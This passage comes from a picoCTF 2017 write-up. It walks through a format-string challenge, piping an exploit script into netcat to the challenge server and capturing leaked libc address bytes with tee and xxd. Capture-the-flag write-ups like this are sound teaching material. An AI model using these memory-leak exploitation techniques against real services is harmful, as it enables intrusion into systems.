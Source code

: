 This script's output was piped in to do all of the aforementioned steps as follows.

(python 

```$ (python input.py; cat) | nc shell2017.picoctf.com 45115
...
Config action: Exit message set!
,,,▒<̈,<̈,̈,▒,,Config action: Command unrecognized.
You can:
...
```

Despite our efforts, the address of ```printf()``` appears to be a bunch of gibberish instead of a valid libc address when converted to hex values in [rapid tables](http://www.rapidtables.com/convert/number/ascii-to-hex.htm).

```
▒<̈
2592 3c 308
```

The reason for this is that its address contains some unprintable characters as well as some null bytes that will not be printed by ```%s```. We can solve this by tee'ing that output to a file and piping its contents into xxd, and tee'ing it to another file that will contain the hex values of these characters in a nicer format. This is done like so. Note that you will need 2 terminal windows to pull off this hack.

In terminal 1:

```
$ (python input.py; cat) | nc shell2017.picoctf.com | out.txt
/bin/sh: 3: out.txt: not found
no port[s] to connect to
^C$ (python input.py; cat) | nc shell2017.picoctf.com 45115 | out.txt
/bin/sh: 4: out.txt: not found
^C$ (python input.py; cat) | nc shell2017.picoctf.com 45115 | tee out.txt
Config action: Command unrecognized.
You can:
    login <login-message>    set the login message
    exit <exit-message>      set the exit message
    prompt <prompt>          set the command prompt
Config action: Exit message set!
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      a9e3323Config action: Command unrecognized.
```